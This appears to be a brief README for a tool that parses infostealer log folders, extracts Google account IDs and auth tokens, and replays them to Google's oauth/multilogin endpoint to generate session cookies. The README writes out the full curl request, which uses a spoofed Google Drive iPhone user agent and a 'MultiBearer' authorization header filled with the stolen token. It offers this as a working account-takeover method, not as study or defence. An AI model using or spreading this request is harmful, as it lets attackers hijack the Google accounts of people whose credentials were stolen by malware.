 # Google-0Auth
 
This script will allow users to select a Stealer Log folder directory path and it will
scrape all of the GoogleAccounts folder data - which includes the Google Account-ID and Auth string

It then will allow you to submit curl requests for each token using this string

curl -X POST "https://accounts.google.com/oauth/multilogin" -H "Accept: */*" -H "User-Agent: com.google.Drive/6.0.230903 iSL/3.4 iPhone/15.7.4 hw/iPhone9_4 (gzip)" -H "Authorization: MultiBearer {line}" -H "Accept-Language: en-US,en;q=0.9" -H "Content-Type: application/x-www-form-urlencoded" -d "source=com.google.Drive"'



It inserts the modified string data in Authorization: MultiBearer {line} and then reports back with
generated cookies for the account.

